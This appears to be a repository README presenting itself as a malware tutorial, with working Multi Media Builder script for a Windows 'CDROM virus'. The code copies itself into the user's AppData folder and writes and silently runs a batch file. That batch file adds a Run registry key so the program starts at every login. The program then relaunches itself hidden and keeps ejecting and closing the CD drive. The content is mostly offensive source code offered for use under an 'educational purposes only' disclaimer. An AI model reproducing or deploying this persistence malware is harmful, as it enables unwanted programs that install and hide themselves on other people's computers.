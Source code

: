 # CDROM VIRUS - Maleware tutorial
 Malware script example
 A windows 10 maleware that opens and closes cdrom
 written with MMB Multi Media Builder
 
 Download Zip File and open the project with MMB
 
 Disclaimer:

For Educational Purposes Only.
 
Do not use it in real life. 
 
We are not liable to any user for

Loss, injury, claim, liability or damages of any kind, as a result of using tutorials or other information on the website.

Special, direct, incidental, punitive, exemplary or consequential damages of any kind whatsoever in any way due, as a result of using or inability for using the website or its contents.

Any third party websites or contents therein directly or indirectly accessed through links in the Site, including but not limited to any errors in or omissions.

```
** run the script on app start
RunScript("pageload")
```

```
** checks registery to see if the maleware already exists or not
** and install the app
InstFlag=1
LoadVariable("Installed","InstFlag ")
If (InstFlag=1) Then
  RunScript("run")
Else
  RunScript("install")
  InstFlag=1
  SaveVariable("Installed"," InstFlag")
End
RunScript("install")
```

```
** copy maleware to the target
** and create a bat file to register app in registery in order to run on start up
string$=<Temp>
substring$='\Temp\\'
RetVal=POS(substring$,string$)+1
localSystemDirectory$=StrCopy(string$,0,RetVal)
currentRoot$='<SrcDir>\\'+CBK_AppFileName
dest$ = localSystemDirectory$+CBK_AppFileName
FileExist("dest$","check")
If (check=1) Then
Else
  SysCommand("CopyFile","currentRoot$,dest$")
End
batFile$=localSystemDirectory$+CBK_AppFileName+'.bat'
regString$= 'REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "My App" /t REG_SZ /F /D '+'"'+dest$+'"'
ReturnVal=StrToFile(batFile$,regString$,FALSE,FALSE)
Run("batFile$","HIDE")
```
This Code will copy the maleware to C:\Users\User\AppData\Local and create and run a bat file as below:
```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "My App" /t REG_SZ /F /D "C:\Users\user\AppData\Local\maleware.exe"
```

Then runs the main code and ejects or close DVD/CD drive:
```
opened=1
LoadVariable("cdst","opened")
If (opened=1) Then
  opened=0
  SaveVariable("cdst"," opened")
  MCICommand("set cdaudio door closed")
Else
  RunScript("install")
  opened=1
  SaveVariable("cdst"," opened")
  MCICommand("set cdaudio door open")
End
currentRoot$='<SrcDir>\\'+CBK_AppFileName
Run("currentRoot$","HIDE")
ExitTimer("1000")
```
